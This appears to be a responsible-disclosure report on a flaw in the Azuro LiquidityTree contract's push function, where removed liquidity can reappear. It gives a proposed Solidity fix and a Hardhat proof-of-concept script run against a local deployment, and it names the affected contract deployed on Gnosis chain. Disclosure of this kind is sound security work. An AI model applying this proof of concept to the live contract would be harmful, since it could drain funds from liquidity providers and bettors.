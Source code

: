 
## Bug Description

There is a bug in the `LiquidityTree` superclass of `LP`. The `push` function does not push changes down to all leaves correctly in certain circumstances. This can cause already removed liquidity to reappear.

The bug is present in the deployed code to the gnosis chain, located here:
https://gnosisscan.io/address/0x6d139bf82e6ff731cc0209349dd41b7feb5cf635#code

For demonstrational purposes I'm using the LiquidityTree Github repository as this is easier to work with.
https://github.com/Azuro-protocol/LiquidityTree

The bug is present in both codebases.

See the Proof of Concept for a concrete example of the bug.

## Impact
This bug can cause already removed liquidity to reappear, leading to an unfair distribution of assets and/or profit of liquidity providers and/or bettors.

## Recommendation
The `push` function returns in case both child nodes have zero amount:
```solidity
if (sumAmounts == 0) return;
```
https://github.com/Azuro-protocol/LiquidityTree/blob/main/contracts/LiquidityTree.sol#L368

This causes problems if the layer below the current child layer contains nonzero values that need to be updated.

A simple fix would be something like the following:
```solidity
uint128 setLAmount;
uint128 setRAmount;
if (sumAmounts != 0) {
    setLAmount = uint128((amount * lAmount) / sumAmounts);
    setRAmount = amount - setLAmount;
} else {
    setLAmount = 0;
    setRAmount = 0;
}

// update left and right child
setAmount(lChild, setLAmount, updateId_);
setAmount(rChild, setRAmount, updateId_);
```

I'm sure there are more elegant and gas-efficient solutions. This code passes the current testsuite and fixes the bug.

## Proof of Concept
```javascript
const hre = require("hardhat");
const ethers = hre.ethers;

async function main() {
  let amount;

  // Create a small tree with 8 leaves to keep things simple
  const LiquidityTree = await ethers.getContractFactory("LiquidityTree");
  const tree = await LiquidityTree.deploy(8);
  await tree.deployed();

  // Add three leaves so the one we will be using is the last of the left "main branch"
  await tree.nodeAddLiquidity(0);
  await tree.nodeWithdraw(8);
  await tree.nodeAddLiquidity(0);
  await tree.nodeWithdraw(9);
  await tree.nodeAddLiquidity(0);
  await tree.nodeWithdraw(10);

  // Add liquidity to the node to be tested
  await tree.nodeAddLiquidity(42); // 42 is arbitrary

  // Remove all current liquidity from the tree
  await tree.remove(42);

  // Add another node so 'tree.updateId' propagates back to the root when we do a push
  await tree.nodeAddLiquidity(0);
  await tree.nodeWithdraw(12);

  // Print the node amount. This is 0 as we expect.
  amount = await tree.nodeWithdrawView(11);
  console.log("amount before:", amount.toString());

  // Withdraw 0 percent, this should do nothing.
  await tree.nodeWithdrawPercent(11, 0);

  // Print the node amount. Now it is 42.
  amount = await tree.nodeWithdrawView(11);
  console.log("amount after:", amount.toString());

  // Script output:
  //
  // $ yarn hardhat run scripts/poc-pushbug.js
  // amount before: 0
  // amount after: 42
  //
}

main()
  .then(() => process.exit(0))
  .catch((error) => {
    console.error(error);
    process.exit(1);
  });

```